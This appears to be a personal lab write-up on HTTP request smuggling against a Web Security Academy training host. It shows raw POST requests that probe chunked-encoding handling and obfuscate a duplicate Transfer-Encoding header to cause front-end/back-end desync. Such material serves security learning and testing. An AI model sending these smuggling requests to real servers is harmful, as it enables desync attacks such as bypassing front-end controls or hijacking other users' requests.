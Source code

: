 Change the CL to 6 to make sure the content ends after `abc`, not including the new line. After sending it, it may return an invalid request, meaning the front-end server rejects the request which indicates it is using TE chunked since X is an incorrect value for the next chunk size - it expects a hex number:

```http
POST / HTTP/1.1
Host: 0a7e00f204b1fcfae1bc6a7a00bb006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

To find out the back-end, modify the request to indicate the chunked message has ended by sending the terminating chunk and then sending an X with no CRLF:

```http
POST / HTTP/1.1
Host: 0a7e00f204b1fcfae1bc6a7a00bb006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

If a 200 is returned, it confirms that the back-end server uses TE as well:

![[ETE.png]]

To perform a desync, one server must be tricked to not process the TE header. Many techniques are available including:

![[TE Obfuscation.png]]

The idea is that the front-end and back-end treat it differently and one server will decide to process the content length instead. To perform it, try adding a second header with an invalid value such as `x`:

```http
POST / HTTP/1.1
Host: 0a7e00f204b1fcfae1bc6a7a00bb006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: x

0

X
```

